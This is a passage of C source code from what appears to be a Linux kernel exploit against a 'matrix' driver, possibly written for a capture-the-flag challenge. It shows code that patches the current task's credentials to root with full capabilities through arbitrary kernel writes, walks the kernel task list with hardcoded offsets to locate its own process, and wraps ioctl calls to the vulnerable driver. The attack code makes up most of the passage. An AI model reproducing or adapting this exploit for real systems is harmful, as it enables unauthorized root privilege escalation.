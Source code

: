 ```c
  kwrite32(task_creds + offsetof(struct cred, fsgid), GLOBAL_ROOT_GID);
  kwrite32(task_creds + offsetof(struct cred, securebits), SECURE_BITS_DEFAULT);
  kwrite64(task_creds + offsetof(struct cred, cap_inheritable), CAP_EMPTY_SET);
  kwrite64(task_creds + offsetof(struct cred, cap_permitted),   CAP_FULL_SET);
  kwrite64(task_creds + offsetof(struct cred, cap_effective),   CAP_FULL_SET);
  kwrite64(task_creds + offsetof(struct cred, cap_bset),        CAP_FULL_SET);

  DBG_PRINT("[+] patched credentials %lx (task=%lx)\n", task_creds, task_struct);
}

// Receives the kernel base address and returns the task structure of the
// current task.
uint64_t lookup_current_task(uint64_t kbase)
{
  char new_task_name[] = "bfs_findme";

  if (prctl(PR_SET_NAME, new_task_name, 0, 0, 0) < 0)
    errx(1, "couldn't set new task name");

#define DELTA_INIT_TASK 0xa26600
  uint64_t init_task = kbase + DELTA_INIT_TASK;

#define DELTA_COMM  0x4a0
#define DELTA_TASKS 0x230

  uint64_t current_task = init_task;

  do
  {
    char task_name[17] = {0};

    *(uint64_t*) &task_name[0] = kread64(current_task + DELTA_COMM);
    *(uint64_t*) &task_name[8] = kread64(current_task + DELTA_COMM + 8);

    printf("[*] %lx -> %s\n", current_task, task_name);

    if (! strcmp(task_name, new_task_name))
      return current_task;

    current_task = kread64(current_task + DELTA_TASKS) - DELTA_TASKS;

  } while (current_task != init_task);

  errx(1, "couldn't find current task");
}

// ----------------------------------------------------------------------------
// Interface for interacting with the driver

void matrix_do_link(int fd, int link_fd)
{
  if (ioctl(fd, IOCTL_MATRIX_DO_LINK, link_fd) < 0)
    errx(1, "couldn't link matrix\n");

  DBG_PRINT("[*] matrix linked\n");
}

uint8_t matrix_get_pos(int fd, int row, int col)
{
  struct matrix_pos pos = {0};

  pos.row = row;
  pos.col = col;
```